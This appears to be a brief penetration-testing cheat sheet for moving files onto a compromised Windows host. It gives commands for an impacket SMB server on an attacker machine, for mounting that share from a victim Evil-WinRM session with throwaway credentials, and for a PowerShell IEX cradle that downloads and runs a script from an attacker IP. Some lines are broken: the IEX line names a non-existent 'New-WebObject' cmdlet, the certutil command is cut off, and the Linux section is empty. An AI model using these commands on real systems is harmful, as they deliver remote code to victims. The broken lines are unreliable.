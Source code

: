 # Windows

### impacket-smbserver. Useful when transferring through evilwinrm
On attacker machine. 
```
impacket-smbserver <NameOfServer> $(pwd) -smb2support -user <AnyUser-UsedForLater> -password <AnyPassword-UsedForLater>
```
On the victim Evilwinrm box
```
$pass = convertto-securestring <'AnyPassword'> -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential(<'AnyUser'>, $pass)

New-PSDrive -Name <UserFromLastStep> -PSProvider Filesystem -Credential $cred -Root \\<Attacker.IP.Address.>\<NameOfServer>
```

### Powershell IEX
```
IEX(New-WebObject Net.WebClient).downloadString('http://<attacker.ip>:<port>/<file-to-download>')
```

### Certutil
```
certutil.exe -urlcache -f 
```



# Linux
